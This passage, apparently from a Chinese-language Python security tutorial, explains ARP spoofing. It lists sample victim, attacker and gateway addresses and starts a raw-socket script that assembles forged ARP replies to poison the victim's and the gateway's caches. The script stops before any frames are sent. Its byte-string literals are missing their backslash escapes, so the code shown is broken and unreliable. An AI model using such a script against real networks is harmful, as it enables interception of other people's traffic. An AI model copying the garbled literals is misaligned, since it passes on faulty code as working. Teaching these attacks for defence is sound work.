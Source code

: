 ARP 缓存

ARP 欺骗，也称为 ARP 缓存中毒，是一种攻击类型，攻击者会更改网关 ARP 缓存中受害机器的 MAC 地址以及受害机器 ARP 缓存中网关的 MAC 地址。该技术用于攻击局域网。攻击者可以通过 LAN 嗅探数据帧。在 ARP 欺骗中，攻击者向网关和受害者发送虚假回复。其目的是将攻击者的 MAC 地址与另一台主机（如默认网关）的 IP 地址相关联。ARP 欺骗用于主动嗅探。

现在，我们将使用一个示例来演示 ARP 欺骗。

网络中所有机器的 IP 地址和 MAC 地址如下：

| **机器名称** | **IP 地址** | **MAC 地址** |
| Windows XP（受害者） | `192.168.0.11` | `00:0C:29:2E:84:7A` |
| Linux（攻击者） | `192.168.0.10` | `00:0C:29:4F:8E:35` |
| Windows 7（网关） | `192.168.0.1` | `00:50:56:C0:00:08` |

让我们看看 ARP 协议报头，如下图所示：

![](img/3021d565-f923-4660-880d-3016357b854d.png)

ARP 报头

让我们看一下实现 ARP 欺骗的代码，并逐行讨论：

```py
import socket
import struct
import binascii
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))

sor = 'x00x0cx29x4fx8ex35'
victmac ='x00x0Cx29x2Ex84x7A'

gatemac = 'x00x50x56xC0x00x08'
code ='x08x06'
eth1 = victmac+sor+code #for victim
eth2 = gatemac+sor+code # for gateway

htype = 'x00x01'
protype = 'x08x00'
hsize = 'x06'
psize = 'x04'
opcode = 'x00x02'

gate_ip = '192.168.0.1'
victim_ip = '192.168.0.11' 
gip = socket.inet_aton ( gate_ip )
vip = socket.inet_aton ( victim_ip )

```